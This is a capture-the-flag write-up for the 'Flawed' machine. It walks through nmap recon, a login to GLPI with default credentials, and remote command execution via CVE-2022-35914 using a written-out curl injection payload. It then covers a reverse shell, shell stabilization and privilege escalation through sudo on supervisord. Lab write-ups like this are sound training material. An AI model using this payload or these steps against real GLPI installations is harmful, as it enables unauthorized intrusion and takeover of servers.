 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respecfully.

We modify the exploit to get a reverse shell on out netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")

## Post Exploitation
As usual we need to stabilize out shell and the steps are as follows:<br>
#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

Let's continue from when we left off. Let's check the sudo privileges the `ETSCTF` user has on the box.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/check-sudo-privs.png "a title")

Hmmmm, interesting..... Can we abuse this? <br>
After doing some research we find out that: <br>
Supervisord is a `process control system` for Unix-like operating systems. It allows you to manage and monitor multiple processes, ensuring that they run continuously and `automatically restarting` them if they fail. Supervisord is often used to manage services, daemons, and other long-running processes.

Supervisord can run commands in it's configuration file. Now you get the hint from here? So what we'll have to do is to craft a configuration file for supervisord which contains commands to execute.<br>
We will take advantage of this to spawn a shell.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/spawn-nc-shell-priv.png "a title")